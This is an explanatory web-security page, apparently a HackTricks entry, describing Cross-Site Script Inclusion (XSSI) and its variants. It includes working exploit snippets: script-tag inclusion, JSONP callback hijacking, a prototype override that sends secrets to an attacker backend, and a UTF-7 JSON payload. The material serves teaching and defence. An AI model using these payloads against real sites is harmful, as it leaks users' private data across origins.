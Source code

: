 # XSSI (Cross-Site Script Inclusion)



## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```

### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
      var angular = function () { return 1; };
      angular.callbacks = function () { return 1; };
      angular.callbacks._7 = function (leaked) {
          alert(JSON.stringify(leaked));
      };
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
      leak = function (leaked) {
          alert(JSON.stringify(leaked));
      };
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

For variables not residing in the global namespace, *prototype tampering* can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```


